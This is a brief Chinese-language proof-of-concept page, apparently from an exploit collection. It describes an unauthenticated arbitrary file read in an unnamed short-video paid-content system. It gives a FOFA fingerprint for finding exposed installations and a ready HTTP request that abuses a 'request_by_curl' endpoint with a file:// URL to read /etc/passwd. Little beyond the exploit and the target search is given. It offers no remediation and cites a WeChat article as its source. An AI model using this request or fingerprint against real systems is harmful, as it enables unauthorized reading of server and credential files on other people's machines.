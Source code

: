 # 某短视频系统视频知识付费系统存在前台任意文件读取漏洞

某短视频系统视频知识付费系统存在前台任意文件读取漏洞

## fofa

```javascript
"testvideo://login?id="
```

## poc

```javascript
GET /index/index/request_by_curl?remote_server=file:///etc/passwd&post_string=1 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112200410.webp)



## 漏洞来源

- https://mp.weixin.qq.com/s/e0IJDC4365lBu5XiWz93Gw